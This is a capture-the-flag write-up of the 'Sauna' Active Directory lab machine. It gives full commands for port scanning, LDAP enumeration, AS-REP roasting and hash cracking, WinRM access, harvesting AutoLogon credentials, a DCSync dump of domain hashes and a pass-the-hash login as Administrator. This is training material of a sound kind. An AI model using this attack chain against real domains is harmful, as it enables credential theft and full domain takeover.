 # Sauna - Active Directory Lab

Date: 2024-11-09

---

## Scope

The target is an Active Directory environment with the hostname `sauna.htb` and IP `10.10.10.175`. I stored the target IP in a local file for reference:

```bash
echo 10.10.10.175 > target
```

Additionally, I added the following entry to the /etc/hosts file:

```bash
10.10.10.175 sauna.htb
```

---

## Enumeration

### 1. Full Port Scan

To discover all open ports on the target, I performed a full port scan:

```bash
nmap -p- -v -oN nmap/full_scan.sauna.txt 10.10.10.175
```

```
Open Ports Identified:

PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49698/tcp open  unknown
49720/tcp open  unknown
```

### 2. Service Enumeration

I conducted a detailed scan of the identified ports to gather more information:

```bash
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49677,49698,49720 -A -T4 -v -oN nmap/tcp_ports_scan.sauna.txt -oX nmap/tcp_ports_scan.sauna.xml 10.10.10.175
```

Key Findings:

* OS: **Windows Server 2019**
* Domain: **EGOTISTICAL-BANK.LOCAL**
* Hostname: **SAUNA**

Notable Services:

* Kerberos (88/tcp)
* LDAP (389/tcp, 3268/tcp)
* HTTP (80/tcp) with IIS 10.0 hosting "Egotistical Bank"
* SMB (139/tcp, 445/tcp)
* WinRM (5985/tcp)

---

### HTTP Exploration

The HTTP service revealed a basic web page hosted on Microsoft IIS. I explored two pages:

* http://sauna.htb/single.html: Found usernames. Stored them in a file called users.
* http://sauna.htb/about.html: Identified team members and added them to the users file.

![image](https://github.com/user-attachments/assets/192dc48b-2e61-4809-bf0a-1d4cc842748b)

---

### LDAP Enumeration

1. General Queries

LDAP allowed **unauthenticated queries**. Running the following:

```bash
ldapsearch -H ldap://$(cat target):389/ -x -s base -x "(objectClass=*)" "*"
```

Findings:

* `rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL`
* `Server Name: CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL`

2. Password Policy

Queried password policy with:

```bash
ldapsearch -H ldap://$(cat target):389/ -x -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' "(objectClass=domain)" | grep Pwd
```

Result: Minimum password length is 7 characters.

---

### SMB Enumeration

SMB required authentication and could not be enumerated anonymously.

---

## Exploitation

### 1. User Enumeration and AS-REP Roasting

Using team worker names from earlier, I created a python script [GitHub - CustListler](https://github.com/spread0942/CustListler) that help me create a custom username wordlist. Then, I used `GetNPUsers.py` to identify accounts vulnerable to AS-REP Roasting:

```bash
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users -format hashcat -outputfile ASREProastables.txt -dc-ip 10.10.10.175
```

Result: Found an **AS-REP hash** for user `fSmith`.

### 2. Cracking the Hash

Cracked the AS-REP hash using hashcat:

```bash
hashcat -m 18200 ASREProastables.txt /usr/share/wordlists/rockyou.txt
```

### 3. Access via WinRM

Using the cracked credentials, I accessed the machine with evil-winrm:

```bash
evil-winrm -i 10.10.10.175 -u "fSmith" -p "****"
```

Outcome: Retrieved the user flag.

---

## Privilege Escalation

### 1. BloodHound Enumeration

I used bloodhound-python for privilege escalation analysis:

```bash
mkdir loots && cd loots
bloodhound-python -d EGOTISTICAL-BANK.LOCAL -u "fSmith" -p "****" -ns 10.10.10.175 -c all
```

Findings: No significant paths for privilege escalation.

### 2. AutoLogon Credentials

Ran `winPEAS` and found AutoLogon credentials:

```
DefaultDomainName: EGOTISTICALBANK
DefaultUserName: EGOTISTICALBANK\svc_loanmgr
DefaultPassword: **********************
```

### 3. DCSync Attack

I marked as owned `svc_loanmgr` user on BloodHound and identified the possibility of a **DCSync attack**. 

![image](https://github.com/user-attachments/assets/98f799be-9037-41df-9160-aed2d7587659)

Using `secretsdump.py`, I dumped NTDS hashes:

```bash
secretsdump.py EGOTISTICAL-BANK/svc_loanmgr:"**********************"@10.10.10.175
```

Extracted Hashes:

```
Administrator NTLM Hash: aad3b.......:82345..........bdf86c7f98e
```

Using crackmapexec I confirmed the hash:

![image](https://github.com/user-attachments/assets/882612c7-4890-43dc-85f3-07cbda3bbd35)


## 4. Final Access

Used the administrator hash to log in via evil-winrm:

```bash
evil-winrm -i 10.10.10.175 -u "Administrator" -H "aad3b.......:82345..........bdf86c7f98e"
```

Outcome: Retrieved the root flag.

---

## Summary

1. Enumerated services and discovered users via HTTP and LDAP.
2. Exploited Kerberos AS-REP Roasting to gain initial access.
3. Used winPEAS to find AutoLogon credentials for privilege escalation.
4. Conducted a DCSync attack to dump NTDS hashes.
5. Logged in as the Administrator and retrieved both user and root flags.

---



